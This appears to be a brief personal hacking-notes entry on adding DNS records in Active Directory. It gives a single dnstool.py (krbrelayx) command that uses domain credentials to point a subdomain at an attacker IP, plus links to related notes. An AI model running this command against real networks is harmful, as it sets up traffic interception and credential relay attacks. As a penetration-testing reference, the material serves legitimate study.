 # active directory  DNS adding DNS records
https://github.com/dirkjanm/krbrelayx
dnstool.py
```bash
python3 dnstool.py -u 'domain.local\username' -p password123 -a add -r subdomain.domain.local -d $ATTACKER_IP $IP
```

# Related
- [20221003151129](/zet/20221003151129/README.md) active directory  DNS
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:
    #assorted #hacking #windows #windows
